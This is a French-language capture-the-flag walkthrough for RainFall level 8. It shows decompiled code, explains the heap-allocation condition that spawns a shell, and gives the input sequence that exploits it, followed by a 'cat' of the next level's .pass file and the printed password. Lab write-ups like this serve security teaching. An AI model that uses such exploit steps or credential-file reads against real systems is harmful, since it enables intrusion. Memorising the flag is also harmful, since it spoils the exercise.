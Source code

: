 # **Level 8**

Pour le `level8`, on test l'executable

```
level8@RainFall:~$ ./level8
(nil), (nil)
dd
(nil), (nil)
zz
(nil), (nil)
```

Il semblerait qu'il faut certains input pour faire réagir l'executable

Donc on decompile le code

```
undefined4 main(void)
{
  char cVar1;
  char *pcVar2;
  int iVar3;
  uint uVar4;
  byte *pbVar5;
  byte *pbVar6;
  bool bVar7;
  undefined uVar8;
  undefined uVar9;
  bool bVar10;
  undefined uVar11;
  byte bVar12;
  byte local_90 [5];
  char local_8b [2];
  char acStack_89 [125];
  
  bVar12 = 0;
  do {
    printf("%p, %p \n",auth,service);
    pcVar2 = fgets((char *)local_90,0x80,stdin);
    bVar7 = false;
    bVar10 = pcVar2 == (char *)0x0;
    if (bVar10) {
      return 0;
    }
    iVar3 = 5;
    pbVar5 = local_90;
    pbVar6 = (byte *)"auth ";
    do {
      if (iVar3 == 0) break;
      iVar3 = iVar3 + -1;
      bVar7 = *pbVar5 < *pbVar6;
      bVar10 = *pbVar5 == *pbVar6;
      pbVar5 = pbVar5 + (uint)bVar12 * -2 + 1;
      pbVar6 = pbVar6 + (uint)bVar12 * -2 + 1;
    } while (bVar10);
    uVar8 = 0;
    uVar11 = (!bVar7 && !bVar10) == bVar7;
    if ((bool)uVar11) {
      auth = (undefined4 *)malloc(4);
      *auth = 0;
      uVar4 = 0xffffffff;
      pcVar2 = local_8b;
      do {
        if (uVar4 == 0) break;
        uVar4 = uVar4 - 1;
        cVar1 = *pcVar2;
        pcVar2 = pcVar2 + (uint)bVar12 * -2 + 1;
      } while (cVar1 != '\0');
      uVar4 = ~uVar4 - 1;
      uVar8 = uVar4 < 0x1e;
      uVar11 = uVar4 == 0x1e;
      if (uVar4 < 0x1f) {
        strcpy((char *)auth,local_8b);
      }
    }
    iVar3 = 5;
    pbVar5 = local_90;
    pbVar6 = (byte *)"reset";
    do {
      if (iVar3 == 0) break;
      iVar3 = iVar3 + -1;
      uVar8 = *pbVar5 < *pbVar6;
      uVar11 = *pbVar5 == *pbVar6;
      pbVar5 = pbVar5 + (uint)bVar12 * -2 + 1;
      pbVar6 = pbVar6 + (uint)bVar12 * -2 + 1;
    } while ((bool)uVar11);
    uVar9 = 0;
    uVar8 = (!(bool)uVar8 && !(bool)uVar11) == (bool)uVar8;
    if ((bool)uVar8) {
      free(auth);
    }
    iVar3 = 6;
    pbVar5 = local_90;
    pbVar6 = (byte *)"service";
    do {
      if (iVar3 == 0) break;
      iVar3 = iVar3 + -1;
      uVar9 = *pbVar5 < *pbVar6;
      uVar8 = *pbVar5 == *pbVar6;
      pbVar5 = pbVar5 + (uint)bVar12 * -2 + 1;
      pbVar6 = pbVar6 + (uint)bVar12 * -2 + 1;
    } while ((bool)uVar8);
    uVar11 = 0;
    uVar8 = (!(bool)uVar9 && !(bool)uVar8) == (bool)uVar9;
    if ((bool)uVar8) {
      uVar11 = (byte *)0xfffffff8 < local_90;
      uVar8 = acStack_89 == (char *)0x0;
      service = strdup(acStack_89);
    }
    iVar3 = 5;
    pbVar5 = local_90;
    pbVar6 = (byte *)"login";
    do {
      if (iVar3 == 0) break;
      iVar3 = iVar3 + -1;
      uVar11 = *pbVar5 < *pbVar6;
      uVar8 = *pbVar5 == *pbVar6;
      pbVar5 = pbVar5 + (uint)bVar12 * -2 + 1;
      pbVar6 = pbVar6 + (uint)bVar12 * -2 + 1;
    } while ((bool)uVar8);
    if ((!(bool)uVar11 && !(bool)uVar8) == (bool)uVar11) {
      if (auth[8] == 0) {
        fwrite("Password:\n",1,10,stdout);
      }
      else {
        system("/bin/sh");
      }
    }
  } while( true );
}
```

En lisant le code on remarque que le code reagit sur les mots clés `auth (avec un espace)`, `service`, `login` et `reset`

En analysant on voit que le code lance un shell si `auth[8] != 0`

Lorsque l'on tape `auth ` ou `service`, cela alloue 16 bytes en memoire et `service` ecrit dedans

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

Donc pour que la condition soit respecte, il faut qu'il y ai 32 bytes d'ecarts en `auth` et `service`
soit un appel a `auth ` puis deux a `service` puis `login`

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

> ### NEXT : [Level 9](/level9/resources/README.md)
